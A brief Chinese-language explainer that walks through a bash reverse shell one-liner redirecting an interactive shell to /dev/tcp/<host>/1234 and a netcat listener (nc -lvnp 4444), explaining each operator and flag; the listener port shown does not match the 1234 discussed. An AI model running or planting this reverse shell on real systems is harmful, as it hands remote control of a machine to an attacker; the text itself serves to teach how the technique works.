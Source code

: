 ```bash
bash -c 'bash -i >& /dev/tcp/<host>/1234 0>&1'
```

在 Bash 中，`>&` 是一种重定向操作符，用于将标准输出（stdout）和标准错误（stderr）重定向到同一个位置。

- `bash -i`：这将启动一个交互式的 bash shell
- `>& /dev/tcp/<host>/1234`：这将 bash shell 的标准输出和标准错误都重定向到 TCP 连接 <host>:1234；这样，所有在 bash shell 中打印的内容都会发送到这个 TCP 连接
- `0>&1`：这将 bash shell 的标准输入（stdin）重定向到当前的标准输出（即 TCP 连接 <host>:1234）。这样，从 TCP 连接接收的所有内容都会作为 bash shell 的输入

总的来说，这个命令会创建一个新的 bash shell，并将其输入、输出和错误都重定向到一个 TCP 连接。从这个 TCP 连接中获得的输出作为 shell 的输入并且执行，shell 执行得出的标准输出和标准错误都重定向到此 TCP 连接。

```bash
rlwrap sudo nc -lvnp 4444
```

至于 nc -lvnp 1234，这是一个使用 nc（netcat）命令的例子。nc 是一个用于处理 TCP 和 UDP 连接的工具。在这个例子中：

- `-l` 选项让 nc 在指定的端口上监听连接。
- `-v` 选项让 nc 在建立连接或接收数据时提供详细的信息。
- `-n` 选项让 nc 直接使用 IP 地址，而不进行域名解析。
- `-p` 选项后面跟的是 nc 要监听的端口号。

所以，nc -lvnp 1234 命令会让 nc 在端口 1234 上监听连接，并在建立连接或接收数据时提供详细的信息。